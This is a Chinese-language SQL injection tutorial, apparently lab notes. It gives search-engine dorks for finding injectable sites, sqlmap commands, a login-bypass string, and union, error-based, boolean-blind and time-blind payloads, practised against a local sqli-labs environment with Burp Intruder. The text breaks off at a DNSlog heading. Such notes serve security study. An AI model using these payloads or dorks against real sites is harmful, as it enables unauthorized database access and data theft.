










# SQL注入


## <font color = #1E90FF>寻找SQL注入点</font>
* __无特定目标：__
		inurl:.php?id=
* __有特定目标__
		inurl:.php?id= site:target.com
- __工具爬取__
		spider---->对搜索引擎和目标网站的链接进行爬取

## <font color = #1E90FF>注入识别</font>
* __手工简单识别__
```mysql
	'
	and 1=1 / and 1=2
	and '1'='1 / and '1'='2
	and 1 like 1 / and 1 like 2 
```
* __工具识别__
```sqlmqp
sqlmap -m filename  --->(filename中保存着检测目标)
sqlmap --crawl ---->(sqlmap读目标网站进行爬取，然后依次测试)
```
## <font color = #1E90FF>SQL注入流程</font>
* __<font color = #FF0000>1.信息收集</font>__
</figure>
     <figure class="thumbnails">
        
</figure>
* __<font color = #FF0000>2.获取数据</font>__
</figure>
     <figure class="thumbnails">
        
</figure>

* __<font color = #FF0000>3.提取权限</font>__
</figure>
     <figure class="thumbnails">
        
</figure>


## <font color = #1E90FF>万能密码登录案例</font>

- **登录SQL的语句**
```mysql
select*from admin where username = '用户输入的用户名' and passworld = '用户输入的密码'	
```
- **万能密码**

    ```
    ' or 1=1 --+	#永远为真

    --+             #注释掉后面的内容不再执行
    ```

## <font color = #1E90FF>注入提交方式</font>

- **get**
```
一般通过浏览器提交
```
- **post**
```
一般用于文件上传等
```
- **ASP:**
```asp
	request	                #全部接受
	request.querystring	    #接受get
	request.form	            #接受post
	request.cookie	        #接受cookie
```
- **PHP:**
```php
	$_REQUEST	    #全部接受
	$_GET$_POST	    #接受get
	$_COOKIE	    #接受cookie
```

## <font color = #1E90FF>整型注入</font>
- **判断是否有注入** <font color = #FF0000>（判断是否未严格校验）---->第一要素</font><BR>
	- 1）可控参数的改变是否能影响页面显示结果
	- 2）输入的SQL语句是否能报错----能通过数据库的报错，看到数据库的一些语句痕迹
	        select username，password from user where id =?'
	- 3）输入的SQL语句是否不报错----我们的语句能够成功闭合
- **2.什么类型的注入**
- **3.语句是否能够被恶意修改**<font color = #FF0000>----->第二要素</font><BR>
- **4.是否能够成功执行**<font color = #FF0000>----->第三要素</font><BR>
- **5.获取我们想要的数据**

### <font color = #FF0000>1.打开sqli靶场，在url后添加`'`号，报错</font><BR>
</figure>
     <figure class="thumbnails">
        
</figure>

- 错误信息如下:
```
     check the manual that corresponds to your MySQL server version for the right syntax to use near '  '" LIMIT 0,1    ' at line 1
```
```mysql
     select username，password from user where id ='?''
```

- 可以看出多了个单引号，说明可能是 `id='?'`

### <font color = #FF0000>2.下面猜字段数</font><BR>
```
order by 数字       #猜字段数
如：
    order by  2
```
### <font color = #FF0000>3.爆表</font><BR>

## <font color = #1E90FF>union联合查询注入</font>

__<font color = #FF0000>1.union操作符用于合并两个或多个Select语句的结果集<BR>2.注意:union内部的select语句必须拥有相同数量的列。列也必须拥有相似的数据类型。通过手机。每条select语句中的列的顺序必须相同<BR>3.默认情况下，union操作符选取不同的值，如果允许重复的值，请使用union all</font>__

### union注入应用场景
- **1.只有最后一个select子句允许有order by**
- **2.只有最后一个select子句允许有limit**
- **3.只要union连接的几个查询的字段数一样且列的书类型转换没有问题，就可以查询出结果**
- **4.注入点页面有回显**

### union注入方法
**order by 猜出来的列数超过数据库表中的列数，报错并不能返回数据**

</figure>
     <figure class="thumbnails">
        
</figure>

## <font color = #1E90FF>报错注入</font>

### <font color = #FF0000>原理</font><BR>
**构造payload让信息通过错误提示回显出来**
### <font color = #FF0000>应用场景:</font><BR>
**1.查询不回显内容，会打印错误信息<BR>2.Update，insert等语句，会打印错误信息**

### <font color = #FF0000>报错注入方法:</font><BR>
**凡是可以让错误信息显示的函数（语句），都能实现报错注入<BR>例:**

- **floor**
```mysql
floor()		--->select count(*) from information_schema.tables group by concat(select version()),floor(rand(0)*2);
group by 对rand()函数进行操作时产生错误
```

- **extractvalue()**
```mysql
extractvalue()	--->extractvalue(1,concat(0x7e,(select user()),0x7e));
Xpath语法错误产生报错
```

- **updatexml()**
```mysql
updatexml()	--->select updatexml(1,concat(0x7e,(select user()),0x7e),1);
Xpath语法错误产生报错
```

## <font color = #1E90FF>布尔盲注</font>
### <font color = #FF0000>原理</font><BR>
**代码存在SQL注入漏洞，然而页面不会回显数据，也不会回显错误信息<BR>只返回“Right”与“Wrong”<BR>这里我们可以通过构造语句，来判断数据库信息的正确性，在通过页面的‘真’和’假‘来识别我们的判断是否正确，这就是布尔盲注**

### <font color = #FF0000>布尔盲注方法:</font><BR>
**构造逻辑判断语句，判断信息的真假，取出所有的真值，实现SQL注入**
- **left函数**
	- **left(a,b)<BR>从左截取a的前b位**
```mysql
left(database(),1)>'s'
database()显示数据库名称，left(a,b)从左截取a的前b位
```

- **regexp**
	- **regexp<BR>正则表达式**
```mysql
select user() regexp '^r'
user的结果为root,regexp为匹配root的正则表达式
```

- **like**
	- **与regexp相似**
```mysql
select user() like 'ro%'
使用like进行匹配
```

- **substr()函数，ascii()函数**
	- **substr(a,b,c)<BR>从b的位置开始，截取字符串a的c长度**
	- **ascii()将摸个字符转为ascill值**
```mysql
ascii(substr(select database()),1,1))=98
```

- **ordr()函数，mid()函数**
	- **mid(a,b,c)<BR>从b的位置开始，截取字符串a的c长度**
	- **ascii()将摸个字符转为ascill值**

```mysql
ord(substr(select database()),1,1))=114
```

### <font color = #FF0000>布尔盲注实验:</font><BR>
**环境：sqli靶场第8关**

- **1.在url后方添加?id=1,界面正常**
	- **在后方添加 and 1='1页面异常**
		```
		1. http://192.168.2.149:86/Less-8/?id=1
		2. http://192.168.2.149:86/Less-8/?id=1 and 1='1
		```
</figure>
     <figure class="thumbnails">
        
</figure>

- **2.通过1判断出有注入点之后，在后方加入' and left(database(),1)='s' --+ 构造闭环**
	- **界面正常**
		```
		http://192.168.2.149:86/Less-8/?id=1' and left(database(),1)='s' --+

		```

- **3.构造语句判断当前数据库的第一个表的第一个字符（可以使用bp抓包来获取全部字符）**
	- **界面正常说明猜测的字母正确**
		```
		http://192.168.2.149:86/Less-8/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e' --+
		```
- **4.通过burp来获取全部字段**
	- **4.1 打开代理，和burp开始抓包，并把包发送到ntruder模块**
	- **4.2 把需要设着的值设为变量**
	- **4.3 在positins模块中把需要的值add一下**
	- **4.4 在payload模块中选泽类型，和最大最小位数**
	- **4.5 设置完成后点击右上角start attack**
     <figure class="thumbnails">
        
		
	</figure>

- **4.可以根据长度开判断是否正确**
	- **打开下面的response模块发现出现 you are in !!说明这个字段是正确的**
	<figure class="thumbnails">
        

	</figure>

- **5.可以修改limit 来查询第二张表，过程与上方相似，不做重复演示**
	
## <font color = #1E90FF>时间盲注</font>
### <font color = #FF0000>原理</font><BR>
**代码存在SQL注入漏洞<BR>然而页面既不会回显数据，也不会回显错误信息<BR>语句执行后也不提示真假，我们不能通过页面的内容来进行判断<BR>这里可以通过构造语句。通过页面响应的时长，来判断信息，这就是时间盲注**

### <font color = #FF0000>时间盲注方法</font><BR>
* **核心语法:**
```mysql
if ( left( user(),1 )='a',0,sleep(3) );
```
<figure class="thumbnails">
    

</figure>

* **真实场景:**
```
if( ascii( substr(database(),1,1) )>115,0,sleep(5) )
```
<figure class="thumbnails">
    
</figure>

### <font color = #FF0000>时间盲注实验:</font><BR>
**环境：sqli靶场第10关**

 - **1.在url后方添加?id=1,界面正常**
	- **在后方添加逻辑判断，发现页面无反应**
	- **在后方加入 下方语句，然后F12发现响应时间变成了4s,说明左侧第一位不是a**
	```
	http://192.168.2.149:86/Less-10/?id=1" and  if(left(user(),1)='a',0,sleep(3)) --+
	```
	<figure class="thumbnails">
    
	</figure>
 - **2.可以通过这种方式一位一位的来进行判断**

 ## <font color = #1E90FF>Dnslog盲注</font>
 ### <font color = #FF0000>原理</font><BR>
<figure class="thumbnails">
	
</figure>